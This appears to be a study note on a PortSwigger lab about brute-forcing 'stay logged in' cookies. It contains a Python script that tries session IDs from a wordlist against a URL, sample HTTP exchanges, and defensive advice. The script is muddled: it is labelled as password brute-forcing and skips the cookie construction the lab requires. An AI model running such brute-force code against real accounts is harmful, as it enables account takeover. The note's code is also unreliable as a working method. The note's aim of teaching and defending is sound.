

## Setting Up the Environment

To demonstrate the brute-forcing of stay logged in cookies, we will set up a simple environment using Burp Suite and a Python script. Burp Suite is a popular web application security testing tool that allows us to intercept and manipulate HTTP requests.

### Installing Burp Suite

1. Download and install Burp Suite from the official website.
2. Start Burp Suite and configure it to listen on port 8080.

### Configuring the Proxy

1. Open Burp Suite and go to the "Proxy" tab.
2. Click on "Options" and ensure that the proxy is listening on port 8080.
3. Configure your browser to use Burp Suite as a proxy by setting the proxy settings to `127.0.0.1` on port `8080`.

### Python Script Setup

We will create a Python script to automate the brute-forcing process. The script will read a list of potential session identifiers from a file and attempt to use each one to access a user's account.

```python
import sys
import requests

def main():
    if len(sys.argv) != 2:
        print(f"Usage: {sys.argv[0]} <URL>")
        print(f"Example: {sys.argv[0]} http://www.example.com")
        sys.exit(1)

    url = sys.argv[1]
    access_carlos_account(url)

def access_carlos_account(url):
    print("Brute-forcing Carlos's password...")
    with open('passwords.txt', 'r') as file:
        for line in file:
            session_id = line.strip()
            headers = {
                'Cookie': f'session={session_id}'
            }
            response = requests.get(url, headers=headers)
            if response.status_code == 200:
                print(f"Success! Session ID: {session_id}")
                break

if __name__ == '__main__':
    main()
```

### Explanation of the Code

1. **Command Line Arguments**: The script expects the URL of the application as a command-line argument. If the number of arguments is incorrect, it prints usage instructions and exits.
2. **Main Function**: The `main` function checks the number of command-line arguments and calls the `access_carlos_account` function with the provided URL.
3. **Access Carlos Account Function**: This function reads session identifiers from a file (`passwords.txt`) and attempts to use each one to access the user's account. If a successful response is received, it prints the session identifier and breaks out of the loop.

### Full HTTP Request and Response

Here is an example of the full HTTP request and response for a failed attempt:

```http
GET / HTTP/1.1
Host: www.example.com
User-Agent: python-requests/2.25.1
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
Cookie: session=invalid_session_id

HTTP/1.1 401 Unauthorized
Date: Mon, 01 Jan 2024 00:00:00 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Length: 0
Content-Type: text/html; charset=UTF-8
WWW-Authenticate: Basic realm="Restricted"
```

And here is an example of a successful attempt:

```http
GET / HTTP/1.1
Host: www.example.com
User-Agent: python-requests/2.25.1
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
Cookie: session=valid_session_id

HTTP/1.1 200 OK
Date: Mon, 01 Jan 2024 00:00:00 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Length: 1234
Content-Type: text/html; charset=UTF-8
```

### Mermaid Diagram: Attack Flow



### Pitfalls and Common Mistakes

1. **Insufficient Rate Limiting**: Without proper rate limiting, attackers can quickly exhaust the pool of potential session identifiers.
2. **Weak Session Identifiers**: Using weak or predictable session identifiers makes brute-forcing easier.
3. **Inadequate Logging**: Lack of logging makes it difficult to detect and respond to brute-force attacks.

### How to Prevent / Defend

#### Detection

1. **Logging and Monitoring**: Implement comprehensive logging and monitoring to detect unusual login attempts or failed login attempts.
2. **Rate Limiting**: Implement rate limiting to slow down attackers and make brute-forcing less feasible.

#### Prevention

1. **Strong Session Identifiers**: Use strong, unpredictable session identifiers that are difficult to guess.
2. **Account Lockout Policies**: Implement account lockout policies that temporarily disable accounts after a certain number of failed login attempts.

#### Secure Coding Fixes

Here is an example of a vulnerable session management implementation and a secure version:

**Vulnerable Code**

```python
# Vulnerable Code
session_id = generate_weak_session_id()
response.set_cookie('session', session_id)
```

**Secure Code**

```python
# Secure Code
session_id = generate_strong_session_id()
response.set_cookie('session', session_id, secure=True, httponly=True)
```

### Configuration Hardening

1. **Secure Cookies**: Ensure that cookies are marked as `HttpOnly` and `Secure`.
2. **Session Expiry**: Set appropriate session expiry times to limit the window of opportunity for attackers.

### Conclusion

Brute-forcing stay logged in cookies is a serious security threat that can lead to unauthorized access to user accounts. By understanding the mechanics of this attack and implementing robust security measures, organizations can significantly reduce the risk of such vulnerabilities.

### Practice Labs

For hands-on practice with brute-forcing authentication mechanisms, consider the following labs:

- **PortSwigger Web Security Academy**: Offers a variety of labs focused on web application security, including brute-forcing.
- **OWASP Juice Shop**: A deliberately insecure web application for practicing various security techniques.
- **DVWA (Damn Vulnerable Web Application)**: A PHP/MySQL web application that contains numerous security vulnerabilities.

By engaging with these labs, you can gain practical experience in identifying and defending against brute-force attacks.

---
<!-- nav -->
[[02-Authentication Vulnerabilities Brute Forcing a Stay Logged In Cookie|Authentication Vulnerabilities Brute Forcing a Stay Logged In Cookie]] | [[Web Security (PortSwigger)/13-Authentication Vulnerabilities/10-Lab 9 Brute forcing a stay logged in cookie/00-Overview|Overview]] | [[04-Understanding Authentication Vulnerabilities|Understanding Authentication Vulnerabilities]]
